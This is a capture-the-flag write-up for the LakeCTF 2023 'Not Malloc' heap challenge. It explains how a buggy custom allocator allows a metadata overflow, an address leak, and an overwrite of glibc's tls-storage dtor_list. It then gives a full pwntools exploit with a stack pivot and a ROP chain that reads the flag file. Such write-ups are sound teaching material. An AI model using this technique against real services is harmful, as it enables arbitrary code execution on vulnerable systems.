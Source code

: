 ## Not Malloc

was a pwn challenge from LakeCTF Quals 2023.

Basically, we can say that it was an heap challenge but with a custom allocator, full of bugs, like an old dog full of fleas..

Here is a short write-ups to explain the exploitation.

In this custom allocator data & metadata were separated. 

You can allocate as much data that you want for heap at startup, with a minimum of 0x4000 bytes.

I quickly spot that you can have a overflow in `metadata_heap`, when you allocate a chunk bigger than data size.

In the docker, the `heap` & `metada_heap` are allocated just before tls-storage (which is just before libc), so we can also have an overflow in tls-storage. 

When you free a chunk, the allocator leaves a metada address in `metadata_heap`..

So our plan for exploitation is simple:

- we first ask for an heap size of 0x4000 bytes (the minimum)

- then we allocate 3 chunks, two smalls, and a big one that overflow metadata_heap

- then we free the small chunks, that will leave an metada_heap address in our big chunk.

- then we leak this metadata_heap address by displaying big chunk, and calculate `libc` base and `tls-storage` address with it, as they are mapped just next to our region.

- then we create another chunk that will overflow `tls-storage`, where we will stack pivot, and execute a ROP to dump the flag

  I used method number #5: 

   [https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc#5---code-execution-via-tls-storage-dtor_list-overwrite](https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc#5---code-execution-via-tls-storage-dtor_list-overwrite)

We will get code execution by creating a fake dtor_list structure in tls-storage as explain in my doc above.

And that's all :)

here is the exploit commented:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import psutil
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

exe = ELF('./chal')
libc = ELF('./libc.so.6')

if args.REMOTE:
  host, port = "chall.polygl0ts.ch", "9004"
else:
  host, port = "127.0.0.1", "5000"

p = remote(host,port)

def create(idx,data,size=0):
  sla('> ','1')
  sla('index > ', str(idx))
  if (size==0):
    size = len(data)+1
  sla('size > ', str(size))
  sla('content > ', data)

def show(idx):
  sla('> ','2')
  sla('index > ', str(idx))

def free(idx):
  sla('> ','3')
  sla('index > ', str(idx)) 

sla('HEAP SIZE > ', '4000')
sla('> ', '2')

create(0,'A')
create(1,'B')

payload = b'C'*8096
payload += b'0'*0x20+ (p64(0)+p64(0x20)+p64(0)*2)*2
payload += p64(0)+p64(0x4000)+p64(1)+p64(0)
create(2,payload)
# free bins to leave a meatadata_heap address in memory
free(1)
free(0)
# leak metadata_heap entry address
show(2)
meta = u64(rcu(b'0'*0x20,b'\n').ljust(8,b'\x00'))-0x40
# calculate tls-storage address
tls = meta+0x4740
libc.address = tls+0x28c0
logbase()
logleak('metadata_heap', meta)
logleak('tls',tls)

rop = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
pop_rdx = rop.find_gadget(['pop rdx','pop r12', 'ret'])[0]
pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
syscall = rop.find_gadget(['syscall', 'ret'])[0]

xchg_edi_eax = libc.address+0x000000000014a385 # xchg edi, eax ; ret
xchg_edx_eax = libc.address+0x00000000000cea5a # xchg edx, eax ; ret

# we gonna overflow and forge a fake dtor_list in tls-storage
# as explained there: https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc#5---code-execution-via-tls-storage-dtor_list-overwrite
#
payload = b'O'*17936
payload += p64(tls+0x21ce40)+p64(tls+0x224c00)+p64(0)+p64(tls+0x1c0d80)+p64(tls+0x1c1380)+p64(tls+0x1c1c80)
# pivot on tls and jump over 
payload += p64(0)+p64(tls-0x50)+p64((libc.address+0x00000000000562ec)<<17)+p64(libc.address+0x0000000000114886)
payload += p64(0)*8
# --
payload += p64(tls)+p64(tls+0xa20)+p64(tls)
payload += b'/app/flag'.ljust(0x20,b'\x00')
# our ROP start here
# fd = open('/app/flag',O_RDONLY)
payload += p64(pop_rdi)+p64(tls+0x18)+p64(pop_rsi)+p64(0)+p64(pop_rax)+p64(2)+p64(syscall)
# size = read(fd, tls-0x200, 128)
payload += p64(xchg_edi_eax)+p64(pop_rsi)+p64(tls-0x200)+p64(pop_rdx)+p64(128)*2+p64(libc.sym['read'])
# write(1, tls-0x200, size)
payload += p64(xchg_edx_eax) + p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(tls-0x200)+p64(libc.sym['write'])
# overflow tls-storage
create(2,payload)
# jump to our payload
sla('> ', '4')

p.interactive()
```

**nobodyisnobody still hacking something...**